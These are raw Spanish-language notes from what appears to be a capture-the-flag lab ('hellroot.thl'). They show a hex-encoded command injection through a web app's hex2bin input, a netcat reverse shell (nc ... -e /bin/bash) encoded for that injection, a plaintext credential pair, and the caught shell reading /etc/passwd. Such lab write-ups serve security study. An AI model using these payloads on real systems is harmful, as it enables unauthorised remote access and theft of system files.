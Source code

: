 # gregar el dominio

https://git.hellroot.thl/Astro/hellroot.thl

┌──(kali㉿kali)-[~/Documents/hellroot]
└─$ cat /etc/hosts                                    
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
192.168.69.6 hellroot.thl git.hellroot.thl


====================================================================================================================================================================================
http://192.168.69.6:5000/
====================================================================================================================================================================================

hex2bin("636174202F6574632F7061737377643B")
Que decodifica a: cat /etc/passwd; y lo ejecuta en el servido


 echo -n "cat /etc/passwd" | xxd -p




┌──(kali㉿kali)-[~/Documents/hellroot]
└─$ echo -n "nc 192.168.69.3 4444 -e /bin/bash" | xxd -p

6e63203139322e3136382e36392e332034343434202d65202f62696e2f62617368
                                                                                                                                                            
┌──(kali㉿kali)-[~/Documents/hellroot]
└─$ printf "nc 192.168.69.3 4444 -e /bin/bash" | xxd -p

6e63203139322e3136382e36392e332034343434202d65202f62696e2f62617368
       


                                                                                                                                                           
┌──(kali㉿kali)-[~/Documents/hellroot]
└─$ echo -n "nc 192.168.69.3 4444 -e /bin/bash;" | xxd -p

6e63203139322e3136382e36392e332034343434202d65202f62696e2f626173683b


====================================================================================================================================================================================


astro
iloveastro


====================================================================================================================================================================================




─$ nc -lvnp 4444    
listening on [any] 4444 ...
connect to [192.168.69.3] from (UNKNOWN) [192.168.69.6] 42630
/usr/bin/script -qc /bin/bash /dev/null
www-data@05cc10128c04:/var/www/html$ ls
ls
index.php  sniff.txt
www-data@05cc10128c04:/var/www/html$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin